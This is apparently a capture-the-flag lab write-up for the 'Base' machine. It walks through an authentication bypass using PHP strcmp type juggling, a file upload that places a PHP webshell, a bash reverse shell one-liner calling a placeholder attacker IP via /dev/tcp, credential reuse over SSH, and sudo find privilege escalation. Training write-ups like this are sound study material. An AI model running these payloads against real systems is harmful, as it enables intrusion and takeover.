




# Base

#### Difficulty:<code>Very Easy</code>

#### Machine Tags:
  Vulnerability Assessment  
  Custom Applications  
  Source Code Analysis  
  Authentication  
  Apache  
  PHP  
  Reconnaissance  
  Website Structure Discovery  
  SUDO Exploitation  
  Authentication Bypass  
  Clear Text Credentials  
  Arbitrary File Upload  
  Information Disclosure  
  PHP type juggling  

#### Description 

#### **Enumeration**
  22/tcp : ssh : OpenSSH 7.6p1
  80/tcp : http : Apache httpd 2.4.29 ((Ubuntu))

  Checking the web application, there is a login portal but none of the default credentials work.

#### **File System Enumeration** 
  Checking the link to the login portal we see a relative path of <code>/login/login.php</code>. We can try to check the parent directory of the login.php page. 

  

  The extension <code>.swp</code> is called a *swap file* which store changes to the buffer to avoid multiple instances of an editor. We can use <code>strings</code> to read the .swp file and find out how they are comparing for sign in for both username and password. They are using <code>strcmp()</code>. 

#### **Login Portal Logic**
  The program is using strcmp for comparing inputted username and password string with valid credentials. However, they are also checking to see if strcmp() evaluates to 0. The problem is that when an empty array is compared against a stored string, it returns *NULL* and in PHP, *NULL === 0*. 

  ``` php
  if (strcmp($username, $_POST['username']) == 0) {
    ...}
    if (strcmp($password, $_POST['password']) == 0) {
      ...}
  ```

  So when we intercept a request and see how the username and password are being sent in this form:
  

  To convert these request parameters into arrays, we can change them to look like <code>username[]=admin&password=pass</code>. This allows us to login and we can see that the home page is prompting for the user to upload files into the base server. 

#### **System Configuration Enumeration**
  To find out more information about the system, we can upload a script for checking additional stuff and upload the file. The next challenge is to find the path for where uploads are stored. We can write a Gobuster command to look for other pages:
  ``` bash
    gobuster dir --url http://10.129.95.184/ --wordlist /usr/share/wordlists/dirb/big.txt
  ```

  We find a directory called <code>_uploaded</code> and see that our uploaded .php file is in it. From there we can run it and gather the information we need. 

  

#### **PHP Webshell**
  To be able to run commands on the target machine, we can upload a webshell script:
  ``` php
    <[?]php echo system([$]_REQUEST['[c]m[d]']);?>
    # defanged bc Win Defender keeps coming up
  ```
  
  To test, we can run a query <code>id</code> and see if it returns something. 
  

#### **Reverse Shell**
  From here, we can begin to establish a reverse shell. First we need to change the request method from GET to a POST and change cmd into a parameter. To establish the reverse shell we can pass the following bash command in the POST request:
  ``` bash
    /bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
  ```
  Then encode it and send it. After, open a netcat listener on the port listed which should connect to the target machine. 

#### **Lateral Movement**
  While further searching the target machine, we find another user <code>john</code> that could be the system administrator; and a set of credentials present in the login directory file <code>config.php</code>. We could stabilize and upgrade the terminal, however from earlier we saw that port 22 is open so we can try to use SSH. 

#### **Privilege Escalation**
  To search for what the john user account has the privileges to run, we can check using <code>sudo -l</code>
  

  We can run the find command and luckily *for us* the find command can execute things as root. 